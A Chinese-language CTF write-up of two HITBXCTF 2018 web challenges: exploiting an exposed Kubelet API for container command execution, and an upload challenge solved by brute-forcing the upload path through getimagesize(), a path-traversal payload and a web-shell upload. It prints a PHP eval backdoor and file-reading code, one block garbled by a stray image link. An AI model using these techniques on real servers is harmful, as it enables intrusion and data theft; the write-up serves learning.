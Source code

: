 ```yaml
---
title: HITBXCTF2018-Baby baby && upload
date: 2018-04-18 20:43:33
tags:
	- CTF
	- Writeup
---
```

前几天在HITBXCTF划了波水，就做出了几个水题，不过题目考察的东西还是挺新的，写个Writeup记一下。
<!-- more -->
### 1. Web-Baby baby

#### 1.1 题目要求
```
This is a pentest challenge, target 47.75.146.42
http://47.75.146.42
```



### 1.2 解题步骤

直接访问没啥有价值的东西，使用Nmap扫描端口

命令：
```
nmap -v -sV -p- 47.75.146.42
```

结果
```
PORT      STATE  SERVICE       VERSION
22/tcp    open   ssh           OpenSSH 7.4 (protocol 2.0)
80/tcp    open   http          nginx 1.12.2
443/tcp   closed https
2333/tcp  closed unknown
3389/tcp  closed ms-wbt-server
8009/tcp  closed ajp13
9999/tcp  open   http          nginx 1.12.2
10250/tcp open   ssl/unknown
```

大致测了测，9999端口不解析php，
直接访问：`http://47.75.146.42:9999/index.php`

下载`index.php`
```php+HTML
This is a pentest challenge, open your mind!
<img style="width: 300px;" src="jd.png" alt="the picture is unrelated to this challenge, just a advertisement" />

<?php
    eval($__POST["backdoor"]);
?>
```
没啥用，查10250端口,找到一篇博客，上面写得很详细，直接利用。

```
https://ricterz.me/posts/Security%20Issues%20of%20Kubelet%20HTTP%28s%29%20Server
```

通过 /runningpods 获取正在运行的 Pod 列表：
```
https://47.75.146.42:10250/runningpods
```

![](http://osn75zd5c.bkt.clouddn.com/HITBCTF2018-Web-baby-1.png)

然后有命令执行漏洞，可以在容器里执行命令。一个个找flag

![](http://osn75zd5c.bkt.clouddn.com/HITBCTF2018-Web-baby-2.png)

在根目录发现flag.txt,直接读取

![](http://osn75zd5c.bkt.clouddn.com/HITBCTF2018-Web-baby-3.png)

HITB{KKKKKKKKKKKKKKKKKKKKKKKKK}


### 2. Web-Upload

#### 2.1 题目要求
```
Get shell !
http://47.90.97.18:9999
```
题目环境是Windows IIS7.0+php
直接右键查看源代码，发现提示。

![image](http://osn75zd5c.bkt.clouddn.com/HITBXCTF2018-Web-upload-1.png)
```php+HTML
<!--pic.php?filename=default.jpg-->
```
访问一下，会返回default.jpg的长和宽


随便找个文件上传，回显了一个文件名。

![image](http://osn75zd5c.bkt.clouddn.com/HITBXCTF2018-Web-upload-2.png)

令filename=返回的文件名，会给出上传图片的长和宽。

![image](http://osn75zd5c.bkt.clouddn.com/HITBXCTF2018-Web-upload-3.png)

看样子后台用函数getimagesize()来处理文件，但是PHP中getimagesize()函数有漏洞，这和前几天dedecms爆后台目录的原理一眼，详情
```
http://www.freebuf.com/column/164698.html
```

然后可以借助pic.php的功能来穷举出上传文件的目录，由于爆破的人太多，使用burp单线程进行爆破，如图，这样就知道目录第一个字符是8,依次往后一位位找。

![image](http://osn75zd5c.bkt.clouddn.com/HITBXCTF2018-Web-upload-4.png)

最后就能得到文件上传的目录
```
?filename=..\..\..\..\..\..\inetpub\wwwroot\87194f13726af7cee27ba2cfe97b60df\1523619718.png
```
![image](http://osn75zd5c.bkt.clouddn.com/HITBXCTF2018-Web-upload-5.png)

然后就可以直接上传shell。

> 参考链接：https://thief.one/2016/09/22/%E4%B8%8A%E4%BC%A0%E6%9C%A8%E9%A9%AC%E5%A7%BF%E5%8A%BF%E6%B1%87%E6%80%BB-%E6%AC%A2%E8%BF%8E%E8%A1%A5%E5%85%85/

利用Windows系统特性，构造：

![image](http://osn75zd5c.bkt.clouddn.com/HITBXCTF2018-Web-upload-6.png)

直接上传后，访问，成功解析。

![image](http://osn75zd5c.bkt.clouddn.com/HITBXCTF2018-Web-upload-7.png)

在phpinofo()中查看被禁用的函数
```
assert,passthru,exec,system,chroot,scandir,chgrp,chown,shell_exec,proc_open,proc_get_status,ini_alter,ini_alter,ini_restore,dl,pfsockopen,openlog,syslog,readlink,symlink,popepassthru,stream_socket_server,fsocket,fsockopen
```
构造代码列出目录文件。
```php
function listDirFiles($DirPath){ 
    if($dir = opendir($DirPath)){ 
         while(($file = readdir($dir))!== false){ 
                if(!is_dir($DirPath.$file)) 
                { 
                    echo "filename: $file<br />"; 
                } 
         } 
    } 
}
listDirFiles('c:/Inetpub/wwwroot/');
```
利用hackbar进行URL编码后上传。发现有flag.php

![image](http://osn75zd5c.bkt.clouddn.com/HITBXCTF2018-Web-upload-8.png)

再构造代码
```php
<?php
  $filename = "c:/Inetpub/wwwroot/flag.php";
  $handle = fopen($filename, "r");
  $contents = fread($h![image](https://note.youdao.com/favicon.ico)andle, filesize($filename));
  echo $contents;
  fclose($handle);
?>
```
![image](http://osn75zd5c.bkt.clouddn.com/HITBXCTF2018-Web-upload-9.png)

成功获取flag